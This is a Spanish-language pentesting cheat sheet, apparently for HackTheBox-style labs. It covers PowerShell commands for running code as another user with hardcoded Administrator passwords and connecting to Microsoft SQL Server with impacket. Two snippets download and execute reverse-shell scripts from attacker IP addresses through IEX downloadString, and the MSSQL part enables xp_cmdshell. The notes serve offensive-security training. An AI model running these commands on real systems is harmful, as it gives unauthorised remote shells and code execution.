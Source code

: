 La s entra dentro de las funciones y si quieres ver donde va usa l ademas si quieres ver el valor de una variable solo nombrala por ejemplo $var1

![image](https://github.com/gecr07/Acordeon/assets/63270579/ebcf1685-8ee9-462e-bb72-62e1d9ac177e)

### Powershell codigo de estado $?

![image](https://github.com/gecr07/Acordeon/assets/63270579/585128cf-4a8d-433f-a2e2-bfe7e9077fde)



### Powershell “run as”

Que quiere decir correr como eso quiere decir que lo vas a correr en la maquina victima vas a correr un comando como otro usuario en el caso de la maquina bart pues como Administrator ya que tenemos el password:

```
PS C:\Users\Administrator\Documents>

$username = "BART\Administrator"
$password = "3130438f31186fbaf962f407711faddb"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.14.12/Invoke-PowerShellTcp.ps1') } -Credential $cred -Computer localhost

```

Otra opcion a Run as que me funciono

```
$SecPass = ConvertTo-SecureString 's67u84zKq8IXw' -AsPlainText -Force

$cred = New-Object System.Management.Automation.PSCredential('Administrator',$SecPass)

Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.21:8084/rev.ps1')" -Credential $cred
```

## Microsoft SQL server

Para conectarse desde Kali existe un script en python de impacket. En Microsoft SQL Server, el usuario administrador por defecto se llama "sa", que es la abreviatura de "System Administrator"

```
mssqlclient.py sa:GWE3V65#6KFH93@4GWTG2G@10.10.10.59

/usr/share/doc/python3-impacket/examples/mssqlclient.py  WORKGROUP/sa:GWE3V65#6KFH93@4GWTG2G@10.129.1.183

xp_cmdshell whoami
# Como soy admin pued puedo activar lal ejecucion de comandos.
enable_xp_cmdshell
```
